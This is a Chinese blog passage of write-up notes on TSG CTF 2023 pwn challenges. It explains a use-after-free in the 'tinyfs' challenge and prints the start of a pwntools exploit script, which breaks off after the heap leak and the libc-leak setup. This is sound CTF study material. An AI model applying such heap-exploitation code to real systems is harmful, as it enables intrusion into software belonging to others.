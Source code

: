 ```yaml
---
date: 2024-12-09 10:29:05
layout: post
title: TSG CTF 2023 复现和总结
subtitle: 
description: >-
    TSG CTF 复现 pwn 时候的一些感悟吧
image: >-
  /assets/img/uploads/autumn.jpg
optimized_image: >-
  /assets/img/uploads/autumn.jpg
category: ctf
tags:
  - TSG CTF
  - SECCON
  - pwn
  - heap exploitation
  - sandbox escape
author: rosayxy 
paginate: true
---
```

今年 TSG CTF 给了 SECCON 晋级的一个名额，所以感觉还是要准备一下，以下是 pwn 部分的一些刷题笔记    
## tinyfs
菜单题，中间卡了一次，具体来说，是他实现了一个简单的文件系统，是以树的形式维护的    
此外还实现了一个 cache，用绝对路径的directory 会被 cache 起来，然后访问绝对路径的时候也是 如果 cache 中有的话 就直接 cd 进去    
对于删除文件夹操作，只会 free 掉被删文件夹下面的 files 而非 folders，且都不会清指针，此外 subdirectory 的 parent 指针也不会被置空，不会被清 cache    
所以我们可以通过 cd 到一个被删除的文件夹的 subdirectory 再 `cd ..` 从而可以进入被删除文件夹，访问其中被删除的 files 进而 UAF    
做的时候感觉这些点都观察到了，但是没有拼成这种方法（虽然感觉没删除 subdirectory 有点奇怪就是了）    
此外，还有一个点是它 make directory 和 make files 都是可以溢出15字节左右，但是溢出的字符必须是 alphanumeric 在看 writeup 前一直在想&试怎么利用这个点并且感觉非常难利用，所以可能也是思路带偏了    
然后其他就没啥可说了，一开始 leak 是用的没有清空 buffer 的属性，然后最后有 uaf 后直接用 house of apple2 的板子就行了
### exp
```py
from pwn import*
context(arch='amd64',os='linux',log_level='debug')
p=process("./chall")
libc = ELF("./libc-2.37.so")
# heap leak
p.recvuntil("$ ")
p.sendline("mkdir aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabb")
p.recvuntil("$ ")
p.sendline("ls")
p.recvuntil("b")
heap_leak = u64(p.recv(6).ljust(8,b'\x00'))
print(hex(heap_leak))
heap_base = heap_leak - 0x2a0
print(hex(heap_base))
# libc leak 试一下能不能用 smallbin 来 leak
p.recvuntil("$ ")
p.sendline("mkdir aaa")
p.recvuntil("$ ")
p.sendline("cd aaa")
for i in range(10):
    p.recvuntil("$ ")
    p.sendline("touch a"+str(i))
p.recvuntil("$ ")
p.sendline("mkdir ttt")
p.recvuntil("$ ")
p.sendline("cd ..")
p.recvuntil("$ ")
```